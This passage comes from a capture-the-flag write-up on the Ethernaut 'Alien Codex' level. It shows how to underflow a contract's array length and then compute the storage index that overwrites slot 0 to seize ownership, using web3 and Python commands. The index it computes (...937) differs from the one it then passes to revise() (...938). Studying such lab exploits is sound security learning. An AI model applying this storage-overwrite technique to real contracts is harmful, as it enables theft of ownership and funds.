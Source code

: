 Let's get back on how to set the owner to our address. Let's set the length of the
array back to `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`:

```javascript
await contract.retract() // do until the length is 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

We can see in the provided contract, that it has a `revise` function, which allows
us to set the content of the `codex` array at a specific index. We can use that
to set the owner to our address.

We know that our array data starts at `web3.utils.sha3('0x0000000000000000000000000000000000000000000000000000000000000001')`
and we know that the storage of a contract has `2 ** 256` slots (don't get mistaken -
thats a really huge number). 
Let's calculate the difference between the `(2 ** 256) - web3.utils.sha3('0x0000000000000000000000000000000000000000000000000000000000000001')`
which will give us the index of storage slot 0.

Why 0 you might ask. The storage has `2 ** 256` slots, but since we start counting
from 0, the last slot is `2 ** 256 - 1`. `2 ** 256` is slot 0 again, overflow.

Let's calculate the difference:

```bash
python3 -c 'print(0x010000000000000000000000000000000000000000000000000000000000000000 - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6)'
```
and we get a number: `35707666377435648211887908874984608119992236509074197713628505308453184860937`

That's the index in order to write into slot 0.

In the beginning we made the observation, that slot 0 contains the owner and the
contact variable. Let's overwrite it now :)

```javascript
await web3.eth.getStorageAt(contract.address, 0) // to see the current value
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x' + web3.utils.padLeft(player.replace('0x', ''), 64))
await web3.eth.getStorageAt(contract.address, 0) // to see the new value
await contract.owner() // you should be the owner now
```

Nice :)

### Learning

It is important to check which Solidity compiler is being used and what the
differences are between the versions. Each version gets better and mitigates
vulnerabilities/weaknesses of the previous versions.

## Level 20: Denial <a name="level-20-denial"></a>

First let's have a look at the contract:
